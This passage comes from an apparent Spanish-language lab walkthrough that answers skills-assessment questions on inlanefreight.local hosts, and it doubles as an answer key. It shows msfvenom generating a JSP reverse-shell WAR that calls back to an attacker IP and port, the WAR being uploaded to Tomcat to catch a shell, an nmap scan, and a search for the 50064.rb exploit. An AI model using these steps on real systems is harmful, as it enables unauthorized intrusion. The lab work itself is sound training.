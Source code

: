 Filtramos por payloads del tipo ".jsp" y observamos que existe una reverseshell disponible:

```
└─$ msfvenom -l payloads | grep "jsp"
    java/jsp_shell_bind_tcp                 Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp              Connect back to attacker and spawn a command shell    <------
```

Generamos el payload con:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4443 -f war > shell.war
```
Siendo "LHOST la IP de la máquina" atacante, dirección consultada con "ip a"

Lo subimos al servidor Tomcat en el apartado de "subir .war files".
Desde el atacante, nos ponemos por escucha por el puerto 4443 con el comando y recibimos la reverseshell.

Simplemente ahora accedemos a "dir C:\\Shares"
y observamos que el nombre de la carpeta es: "dev-share".
Respuesta: *"dev-share"

**3. What distribution of Linux is running on Host-2? (Format: distro name, all lower case)**
El Host-02 tiene la IP "blog.inlanefreight.local".
No tenemos permisos root, pero, observo que en el archivo "/etc/hosts" ya existe la entrada a dicha dirección:
```
cat /etc/hosts
# Host addresses
127.0.0.1  localhost
127.0.1.1  skills-foothold
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
172.16.1.11  status.inlanefreight.local                
172.16.1.12  blog.inlanefreight.local             <--------------
10.129.201.134  lab.inlanefreight.local
```

Ejecuto un escaneo básico y observo:
```
nmap -sCV --open --min-rate 2000 -Pn -n blog.inlanefreight.local -vvv
```
Que en la propia salida, se indica que el sistema está corriendo bajo "UBUNTU"
Respuesta: *"ubuntu"

**4. What language is the shell written in that gets uploaded when using the 50064.rb exploit?**
Ejecuto un:
```
find / -type f -name "50064.rb" 2>/dev/null 
	/home/administrator/Downloads/50064.rb
	/home/administrator/.msf4/modules/blog/50064.rb
	/home/htb-student/.msf4/modules/exploits/php/webapps/50064.rb
	/usr/share/metasploit-framework/modules/exploits/50064.rb
	/usr/share/exploitdb/exploits/php/webapps/50064.rb

```
